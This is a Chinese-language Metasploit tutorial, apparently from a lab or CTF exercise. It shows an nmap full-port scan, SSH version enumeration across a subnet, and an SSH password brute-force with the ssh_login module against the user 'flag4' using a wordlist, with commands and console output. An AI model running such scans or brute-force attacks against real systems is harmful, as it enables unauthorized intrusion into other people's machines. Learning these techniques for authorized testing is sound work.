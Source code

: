 > 服务详细信息
>
> 在Metasploit 中可以调用系统中的命令，比如可以使用Nmap 探测目标的详细服务信息

```
msf6 > sudo nmap -A -p- -sS -sC -T4 -Pn 10.9.69.151
```

> 服务查点
>
> 在Metasploit 的辅助模块中，有很多用于服务扫描和查点的工具，这些工具通常以类似的方式ssh_version 命名。该模块可用于遍历网络 中包含某种服务的主机，并进一步确定服务的版本。下例使用SSH 服务查点

```sh
msf6 > search ssh_version
Matching Modules
================
 # Name Disclosure Date Rank Check Description
 - ---- --------------- ---- ----- -----------
 0 auxiliary/fuzzers/ssh/ssh_version_15 normal No SSH 1.5 Version Fuzzer
 1 auxiliary/fuzzers/ssh/ssh_version_2 normal No SSH 2.0 Version Fuzzer
 2 auxiliary/fuzzers/ssh/ssh_version_corrupt normal No SSH Version Corruption
 3 auxiliary/scanner/ssh/ssh_version normal No SSH Version Scanner
 
msf6 > use 3
msf6 auxiliary(scanner/ssh/ssh_version) > set RHOSTS 10.9.69.0/24
RHOSTS => 10.9.69.0/24
msf6 auxiliary(scanner/ssh/ssh_version) > set THREADS 50
THREADS => 50
msf6 auxiliary(scanner/ssh/ssh_version) > show options
Module options (auxiliary/scanner/ssh/ssh_version):
 Name Current Setting Required Description
 ---- --------------- -------- -----------
 RHOSTS 10.9.69.0/24 yes The target host(s), range CIDR identifier, or hosts file with syntax 'file:
<path>'
 RPORT 22 yes The target port (TCP)
 THREADS 50 yes The number of concurrent threads (max one per host)
 TIMEOUT 30 yes Timeout for the SSH probe
msf6 auxiliary(scanner/ssh/ssh_version) > run
```

> 口令猜测
>
> 在确定了网络上的SSH 服务之后，可以使用MSF 中的ssh_login 模块对SSH 服务进行口令猜测攻击，在进行口令攻击之前，需要一个好用的 用户名和口令字典。

```sh
msf6 > search ssh_login
Matching Modules
================
 # Name Disclosure Date Rank Check Description
 - ---- --------------- ---- ----- -----------
 0 auxiliary/scanner/ssh/ssh_login normal No SSH Login Check Scanner
 1 auxiliary/scanner/ssh/ssh_login_pubkey normal No SSH Public Key Login Scanner
Interact with a module by name or index. For example info 1, use 1 or use auxiliary/scanner/ssh/ssh_login_pubkey
msf6 > use 0
msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 10.9.65.178
RHOSTS => 10.9.65.178
msf6 auxiliary(scanner/ssh/ssh_login) > set USERNAME flag4
USERNAME => flag4
msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FiLE /usr/share/john/password.lst
PASS_FiLE => /usr/share/john/password.lst
msf6 auxiliary(scanner/ssh/ssh_login) > set THREADS 40
THREADS => 40
msf6 auxiliary(scanner/ssh/ssh_login) > run
[*] 10.9.65.178:22 - Starting bruteforce
```